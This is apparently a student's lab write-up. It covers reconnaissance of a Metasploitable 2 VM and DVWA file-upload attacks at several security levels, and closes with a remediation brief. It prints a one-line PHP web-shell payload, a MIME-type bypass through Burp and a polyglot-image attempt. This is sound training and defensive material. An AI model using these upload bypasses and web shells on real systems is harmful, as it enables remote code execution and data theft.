



# Day 6: Recon Workflow and File Upload

## Task 1: My Recon Workflow

I ran the workflow against the Metasploitable 2 lab VM (192.168.133.128).

1. **Check the host is up** — `ping -c 3 $TARGET`. If this fails, nothing else will work. Stopping condition: 0% packet loss.
2. **Scan ports** — `nmap -p- -T4 $TARGET`. Stopping condition: full scan, or port 80 found.
3. **Check HTTP headers** — `curl -I http://$TARGET`. This tells me Apache and PHP versions. Stopping condition: HTTP 200.
4. **Fingerprint tech** — `whatweb -v $TARGET`. Stopping condition: stack identified.
5. **Brute force directories** — `gobuster dir -u http://$TARGET/dvwa -w /usr/share/wordlists/dirb/common.txt -x php,txt`. Stopping condition: wordlist done.
6. **Discover URLs** — `katana -u http://$TARGET/dvwa -d 2`. Stopping condition: crawl depth reached.
7. **Scan for misconfigurations** — `nikto -h http://$TARGET/dvwa`. Stopping condition: all checks done.
8. **Check for WAF** — `wafw00f http://$TARGET`. Stopping condition: WAF confirmed or not.
9. **Map app as admin** — login through Burp. Stopping condition: logged in.
10. **Exploit** — upload a shell, trigger it with `?cmd=id`. Stopping condition: `uid` output returned.

**Tool choice:** The handout starts with `whatweb`. I started with `ping` instead, because if the target is down, `whatweb` just times out. Ping confirms the network first.

---

## Task 2: DVWA File Upload

### Low
No validation at all. Uploaded `shell.php` and got it first try. Then ran `?cmd=id` and got `uid=33(www-data)`.

### Medium
Tried `shell.php` and got "Your image was not uploaded." The app checks the MIME type in the request.

Bypass: I set up Burp Suite, set Firefox proxy to `127.0.0.1:8080`, intercepted the upload. Changed `Content-Type: application/x-php` to `Content-Type: image/jpeg`. Forwarded it. Upload succeeded.

Then ran `?cmd=id` — got `uid=33(www-data)` again.

### High
Tried `shell.php` first — blocked. Then tried a PNG polyglot (`small.png` — valid PNG with `<?php system($_GET["cmd"]); ?>` appended). Also blocked: "Your image was not uploaded." The PNG content check was stricter than expected.

Then tried a JPEG polyglot (`small.jpg`). Upload succeeded: `../../hackable/uploads/small.jpg succesfully uploaded!`

But when I requested `?cmd=id`, the server just returned the image. No PHP execution. The JPEG was accepted (it really is a valid JPEG), but the server stripped the appended code before saving, or blocked execution on `.jpg` files.

### Impossible
My DVWA only has 3 levels — Low, Medium, High. No Impossible option in this build.

From the source code and the handout, the Impossible level adds two things the High level doesn't:
- random filename generation (so the attacker can't predict the path)
- execution denial in the upload directory (so `.php`, `.phtml`, etc. don't run even if uploaded)

Those two controls are what actually kill the polyglot bypass. The content check at High was bypassed — but the execution layer still held.

---

## Task 3: Remediation Brief (for management)

**What is the problem?**
Our upload form accepts files from users without checking what they actually are. The web server is also set up to run uploaded files as code in the folder where they're saved.

**Why it matters**
An attacker can upload a small file that looks like an image but contains instructions for the server. When the attacker loads that file, the server follows those instructions. That gives the attacker the same access the web server has — which is enough to read configuration files, find database credentials, and reach the database itself. From there they can take data or modify it.

This is not theoretical. The same pattern caused real breaches. The severity is critical because it's fully remote: no physical access, no credentials, no user action needed.

**What has to change**
1. **Check the file on the server, not in the browser.** The current check trusts what the browser says the file is. That value is controlled by the attacker. The server must open the file itself and confirm it matches an expected type (magic bytes, image decoding, dimensions).
2. **Use a safe filename.** Strip the user's filename. Generate a random one, keep a safe extension, and log the original name separately if needed.
3. **Deny execution in the upload folder.** This is the control that survives every bypass we demonstrated. Even if the content check fails and a malicious file lands on disk, it cannot run if the directory has no PHP handler configured.
4. **Serve uploads as downloads.** Add `Content-Disposition: attachment` so browsers download rather than render uploaded files.
5. **Rate-limit the upload endpoint and log content/extension mismatches.** This catches someone trying multiple bypasses.

Points 1 and 2 are what the High level in DVWA attempts. Point 3 is the one that actually stops exploitation. Fix point 3 first.
